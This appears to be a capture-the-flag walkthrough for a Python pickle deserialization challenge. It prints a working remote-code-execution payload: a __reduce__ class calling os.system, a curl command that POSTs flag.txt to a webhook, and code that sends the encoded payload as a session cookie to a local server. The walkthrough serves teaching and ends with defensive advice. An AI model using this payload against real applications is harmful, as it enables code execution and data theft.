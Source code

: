 1. **Understand the vulnerability**: This challenge uses Python's `pickle` module to deserialize session cookies. Pickle deserialization is dangerous because it can execute arbitrary code when deserializing malicious objects.

2. **Create a malicious pickle object**: Create a Python class that uses the `__reduce__` method to execute a command when unpickled. The `__reduce__` method should return a tuple containing a callable (like `os.system`) and its arguments.

   ```python
   import pickle
   import base64
   import os

   class RCE:
       def __reduce__(self):
           # Command to exfiltrate the flag
           cmd = 'curl -X POST --data-binary @flag.txt https://your-webhook-url'
           return (os.system, (cmd,))
   ```

3. **Craft the payload**: The payload should execute a command that exfiltrates the flag. You can use `curl` to send the flag to a webhook service like webhook.site, or use other methods to retrieve the flag.

4. **Serialize and encode**: Use `pickle.dumps()` to serialize your malicious object, then base64 encode it to make it suitable for use as a cookie value.

   ```python
   # Serialize the malicious object
   pickled = pickle.dumps(RCE())

   # Base64 encode for use as a cookie
   encoded_pickle = base64.b64encode(pickled).decode('utf-8')
   ```

5. **Set the malicious cookie**: Replace the `session` cookie with your base64-encoded malicious pickle object. You can do this programmatically using requests or manually through browser developer tools.

   ```python
   import requests

   cookies = {'session': encoded_pickle}
   response = requests.get('http://localhost:5004', cookies=cookies)
   ```

6. **Trigger the deserialization**: Make a request to the server. When the server tries to deserialize your malicious session cookie, it will execute your payload.

7. **Retrieve the flag**: Check your webhook or wherever you sent the flag data to retrieve the flag.

**Key concept**: Never trust user input, especially when using dangerous deserialization methods like pickle. Always validate and sanitize data, and consider using safer alternatives like JSON for session data.
